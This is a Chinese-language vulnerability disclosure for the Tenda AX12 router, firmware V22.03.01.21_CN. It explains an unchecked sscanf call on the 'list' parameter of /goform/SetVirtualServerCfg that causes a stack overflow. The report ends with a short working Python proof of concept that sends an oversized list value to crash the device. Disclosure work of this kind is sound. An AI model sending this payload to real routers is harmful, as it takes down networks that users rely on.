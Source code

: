 # 漏洞描述

设备：Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

漏洞类型：栈溢出

攻击效果：拒绝服务

# 漏洞成因

该漏洞为发生在`sub_42DE00`函数中的栈溢出漏洞，该函数处理`/goform/SetVirtualServerCfg`下的post请求

首先，该函数调用了`sub_42DB88`函数

![image-20220209184332117](image/1.png)

`sub_42DB88`函数中：

![image-20220209184425282](image/2.png)

v3直接来源于http数据包中的list参数，随后直接调用sscanf函数对list进行切割，而在这一过程中没用任何的长度限制与安全检查

由此攻击者可以通过一串长list造成栈溢出，实现拒绝服务攻击

# POC

拒绝服务的poc：

```python
import requests

url = "http://192.168.0.1/goform/SetVirtualServerCfg"
list_data = 'a'*0x1000 + '~'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

